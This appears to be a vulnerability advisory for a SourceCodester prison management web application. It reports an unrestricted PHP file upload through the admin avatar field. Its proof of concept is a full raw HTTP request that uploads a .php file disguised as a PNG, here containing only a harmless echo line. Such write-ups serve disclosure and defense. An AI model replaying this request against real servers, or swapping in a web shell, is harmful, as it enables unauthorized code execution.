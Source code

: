1.Prison Management System File Upload

2.Description
The system Client doesn't properly sanitise POST parameter, which result into a File Upload.

3.Vendor Homepage 
https://www.sourcecodester.com/sql/17287/prison-management-system.html

4.Author will@webray.com.cn inc

5.Proof of Concept

(1)The request packet is as follows
POST /prison/Admin/add-admin.php HTTP/1.1
Host: 192.168.67.19
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Content-Type: multipart/form-data; boundary=---------------------------122164689239586784784260003750
Cookie: PHPSESSID=m2d2dle30rvjnncs2tdtn9c37e
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Origin: http://192.168.67.19
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Referer: http://192.168.67.19/prison/Admin/add-admin.php
Sec-GPC: 1
Content-Length: 4225

-----------------------------122164689239586784784260003750
Content-Disposition: form-data; name="txtusername"


-----------------------------122164689239586784784260003750
Content-Disposition: form-data; name="txtfullname"


-----------------------------122164689239586784784260003750
Content-Disposition: form-data; name="txtpassword"


-----------------------------122164689239586784784260003750
Content-Disposition: form-data; name="txtphone"


-----------------------------122164689239586784784260003750
Content-Disposition: form-data; name="avatar"; filename="a.php"
Content-Type: image/png

<?php echo('hello');?>
-----------------------------122164689239586784784260003750
Content-Disposition: form-data; name="btncreate"


-----------------------------122164689239586784784260003750--

(2)result
![image](https://github.com/MaiEmily/map/blob/master/public/image/20190528145810708.png)

![image](https://github.com/MaiEmily/map/blob/master/public/image/20190528145810708.png)
